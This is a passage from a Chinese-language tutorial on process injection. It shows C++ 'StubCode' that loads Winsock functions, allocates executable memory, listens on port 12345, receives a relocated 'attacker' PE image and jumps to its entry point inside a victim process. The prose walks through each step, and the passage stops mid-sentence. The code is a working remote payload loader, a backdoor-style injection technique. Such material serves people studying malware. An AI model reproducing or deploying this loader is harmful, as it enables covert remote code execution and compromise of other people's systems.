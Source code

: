 下面我们就进入stub的最后一部分，也是最重要的一部分：stubcode，代码如下。

```cpp
void WINAPI StubCode(STUBPARAM* psp)
{
    HINSTANCE hWs2_32 = psp->fnLoadLibrary(psp->szWs2_32);
    FxGetProcAddr fnGetProcAddr = psp->fnGetProcAddr;
    Fxsocket fnsocket = (Fxsocket)fnGetProcAddr(hWs2_32, psp->szSocket);
    Fxbind fnbind = (Fxbind)fnGetProcAddr(hWs2_32, psp->szBind);
    Fxlisten fnlisten = (Fxlisten)fnGetProcAddr(hWs2_32, psp->szListen);
    Fxaccept fnaccept = (Fxaccept)fnGetProcAddr(hWs2_32, psp->szAccept);
    Fxsend fnsend = (Fxsend)fnGetProcAddr(hWs2_32, psp->szSend);
    Fxrecv fnrecv = (Fxrecv)fnGetProcAddr(hWs2_32, psp->szRecv);

    BYTE* buf = (BYTE*)psp->fnVirtualAlloc(NULL, psp->dwImageSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    SOCKET sckListen = fnsocket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    struct sockaddr_in saServer;
    saServer.sin_family = AF_INET;
    saServer.sin_port = 0x3930;    //htons(12345)
    saServer.sin_addr.s_addr = ADDR_ANY;
    fnbind(sckListen, (sockaddr *)&saServer, sizeof(saServer));
    fnlisten(sckListen, 2);
    SOCKET sckClient = fnaccept(sckListen, NULL, 0);

    fnsend(sckClient, (const char*)(&buf), 4, 0);
    DWORD dwBytesRecv = 0;
    BYTE* pos = buf;
    while(dwBytesRecv < psp->dwImageSize)
    {
        dwBytesRecv += fnrecv(sckClient, (char*)pos, 1024, 0);
        pos = buf + dwBytesRecv;
    }

    FxAttackerEntry fnAttackerEntry = (FxAttackerEntry)(buf + psp->rvaAttackerEntry);
    fnAttackerEntry(buf, psp->fnLoadLibrary, psp->fnGetProcAddr);
}

void StubCodeEnd(){}        //this function marks the end of stubcode
```

stubcode先用LoadLibrary得到ws2_32.dll的句柄，然后通过GetProcAddress获得几个API函数的入口地址。接着它用VirtualAlloc分配了dwImageSize大小的内存，这块内存有什么用呢？原来，同《进程隐藏》一样，我们要向victim进程中注入另一个PE文件——其实就是attacker自己——的映像，所以，这块内存就是保存映像的空间，而dwImageSize也就是这个映像的大小。之后它开始在12345端口上侦听，直到接到attacker连接请求。

与attacker建立连接后，StubCode会立即将刚才分配的内存的起始地址发过去，attacker要根据这个地址对自身的一个拷贝进行重定位，然后将它发回StubCode。StubCode则把这个拷贝接收到刚才分配的内存中去。Attacker还有另外一个函数“AttackerEntry”，rvaAttackerEntry就是这个函数与attacker的装入地址的距离。通过这个距离，StubCode就可以在attacker的拷贝中找到AttackerEntry的入口，从而把控制权转交给它。至此，StubCode就完成了自己的使命。

代码中使用LoadLibrary和GetProcAddress方式你不陌生吧？如果真的看不明白，请读一下《进程隐藏》。VirtualAlloc也位于kernel32.dll，所以我就照方抓药了。

上面的代码里还有一个空函数“StubCodeEnd”，虽然表面上什么也没做，但它却有一个非常重要的任务：我要用它来计算StubCode这个函数占了多少内存，并据此计算出整个stub的大小。用下面的方法就行了：
